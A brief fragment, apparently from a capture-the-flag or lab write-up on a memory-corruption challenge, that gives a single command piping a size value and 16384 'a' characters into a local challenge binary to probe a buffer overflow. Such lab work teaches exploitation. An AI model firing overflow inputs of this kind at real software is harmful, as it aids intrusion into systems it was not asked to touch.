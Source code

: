 You can use the following command.

```
(echo "16384"; python3 -c "print('a' * 0x4000)") | /babymem_level11_testing2
```